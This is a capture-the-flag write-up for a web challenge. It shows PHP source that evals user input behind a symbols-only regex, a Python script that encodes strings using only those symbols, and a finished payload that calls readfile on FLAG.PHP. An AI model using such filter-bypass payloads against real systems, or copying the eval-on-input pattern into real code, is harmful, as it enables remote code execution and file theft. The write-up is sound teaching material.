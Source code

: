 # Jailoo Warmup

## Description

- Category: web
- Points: 442/500
- Solved by: drw0if, 0xThorn

## Writeup

As said in the challenge description, the objective is to get the content of `FLAG.PHP`

![Site](images/site.png)

The website is very simple: it only contains a textbox and a submit button.

First we have a look at the provided source code:

```PHP
<?php
if (sizeof($_REQUEST) === 2 && sizeof($_POST) === 2) {
	$cmd = $_POST['cmd'];
	$submit = $_POST['submit'];
	if (isset($cmd) && isset($submit)) {
		if (preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)) {
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		} else {
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	} else {
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
} else if ($_SERVER['REQUEST_METHOD'] != "GET") {
	die("<div class=\"error\">NOT ALLOWED !</div>");
}
```

As seen in the source code, the text inserted in the textbox will be executed with an `eval`, but only if it contains `$()_[]=;+".`, because of the regex.

After some research on google, it seems that you can create code without using letters. The strategy is to assign a letter to a variable and then increase its value to get all the letters. Then by concatenating them it is possibile to write anything.

The first problem is how to get a letter, preferably `A`.

```PHP
$_=[]; // Create an array
$_="$_"; // $_ = Array
$_=$_["."+"."]; // $_ = $_[0] (because "."+"." returns an error) = A
```

From now on it is easy to get any letter. For example if we need a C we can do:

```PHP
$__=$_; // A
$__++;$__++; //C (A increased two times)
```

Now it comes the tricky part: writing an exploit. Writing all the code by hand is slow, so we wrote a script that can encrypt the strings we want.

```PYTHON
def encodeString(payload, variableName): # Payload is the string to be encoded, the variableName is generally '___' (a certain number of underscores)
  payload = payload.upper()

  ans = '$' + variableName + '="";' # Initializes the variable

  for c in payload:
    if c in '$()_[]=;+.': # If it is an allowed character it just concatenates it
      ans += '$' + variableName + '.="' + c + '";'

    else: # Otherwise it creates the letter starting from the 'A'
      offset = ord(c) - ord('A')
      ans += '$__=$_;'
      ans += '$__++;' * offset
      ans += '$' + variableName + '.=$__;'

  return ans
```

Finally comes the part that took the most time away: choosing the function to be called. After some struggle with `print`, `echo` and `file_get_contents`, the best solution turned to be `readfile('FILE.PHP');`

Putting it all together, to obtain a working code we had to init a variable with `A`, create two variables for `readfile` and `file.php` and then put them together with something like `$___($_____);`. The final code of the script is in this repository.

The result is this mess: `$_=[];$_="$_";$_=$_["."+"."];$___="";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$___.=$__;$__=$_;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$_____="";$__=$_;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_____.=".";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$___($_____);`

By pasting that string in the textbox and pressing execute, we were able to fing the flag in the page code.

![Flag](images/flag.png)
